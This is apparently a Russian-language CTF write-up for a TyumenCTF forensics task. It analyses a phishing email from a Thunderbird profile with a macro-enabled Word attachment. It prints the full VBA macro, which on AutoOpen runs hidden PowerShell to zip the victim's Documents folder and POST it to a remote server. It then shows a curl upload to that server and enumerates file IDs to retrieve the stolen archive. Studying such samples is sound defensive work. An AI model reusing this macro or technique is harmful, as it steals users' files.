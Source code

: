 # 272+273=8

Простая математика. Кстати, о математике... У меня украли мою любимую папку с домашкой. Узнаешь, что в ней было? Только тс-с-с...

## Решение

Внутри архива находится профиль почтового клиента Thunderbird. Если загрузить его в программу (меню Инструменты -> Импорт), можно увидеть список входящих писем некоего Ивана Табуретки.

Среди недавних писем можно найти письмо с адреса `noreply@vorgaming.com`, содержащее сообщение об ограничении доступа к аккаунту и просьбу открыть прилагаемый документ.

К письму прикреплен файл `kek.docm`, представляющий из себя документ Microsoft Word с поддержкой макросов. При открытии его MS Word показывается предупреждении о наличии небезопасных макросов.

Открыв для редактирования проект макросов, можно найти исходный код макроса:

```
Sub AutoOpen()
    archivePath = Environ("TEMP") & "\docs.zip"

    CompressFiles (archivePath)
    UploadFile (archivePath)
End Sub

Sub CompressFiles(archivePath As String)
    Dim fso As Object, homePath As String

    homePath = Environ("USERPROFILE") & "\Documents"

    Call Shell("powershell.exe -WindowStyle Hidden Compress-Archive -Force -Path """ & homePath & "\*"" -DestinationPath """ & archivePath & """", vbNormalFocus)
End Sub

Sub UploadFile(filePath As String)
    Dim fso As Object, serverURL As String

    Set fso = CreateObject("Scripting.FileSystemObject")

    serverURL = "http://5.1.53.43:5019/upload/" & fso.GetFileName(filePath)

    Dim oXMLHTTP As Object, bByte() As Byte

    Set oXMLHTTP = CreateObject("MSXML2.XMLHTTP")

    If Not fso.FileExists(filePath) Then
        MsgBox "File not found at: " & filePath, vbCritical
        Exit Sub
    End If

    Dim stream As Object
    Set stream = CreateObject("ADODB.Stream")
    With stream
        .Type = 1
        .Open
        .LoadFromFile filePath
        bByte = .Read
        .Close
    End With

    oXMLHTTP.Open "POST", serverURL, False
    oXMLHTTP.setRequestHeader "Content-Type", "application/octet-stream"
    oXMLHTTP.Send (bByte)

    Set fso = Nothing
End Sub
```

По этому коду видно, что макрос создает архив папки `Документы`, сохраняет его в %TEMP%/docs.zip и загружает на удаленный сервер POST запросом по адресу `http://5.1.53.43:5019/upload/docs.zip`.

Если попытаться загрузить собственный файл на сервер, например, командой curl:

```
curl -X POST http://5.1.53.43:5019/upload/docs.zip --data-binary @docs.zip
```

Сервер вернет ответ вида:

```
<body>File uploaded successfuly!<a href="/files/docs-100504.zip">View</a></body>
```

Из этого ответа можно понять, что сервер сохраняет файлы, добавив к имени из пути числовой идентификатор. Значит, зная имя загруженного файла, можно найти ссылку на него перебором идентификаторов в сторону убывания.

После нескольких попыток узнаем, что загруженный макросом файл имеет адрес `http://5.1.53.43:5019/files/docs-1005000.zip`. Его нужно скачать и разархивировать.

Командой `grep -rn TyumenCTF` или ручным поиском можно выяснить, что флаг находится в файле `Домашка/Английский язык/не открывать!!!/passwords.txt`

## Флаг
```
TyumenCTF{h0m3wrk_f01dr_1s_4lway5_fu1l_0f_s3cr3ts}
```
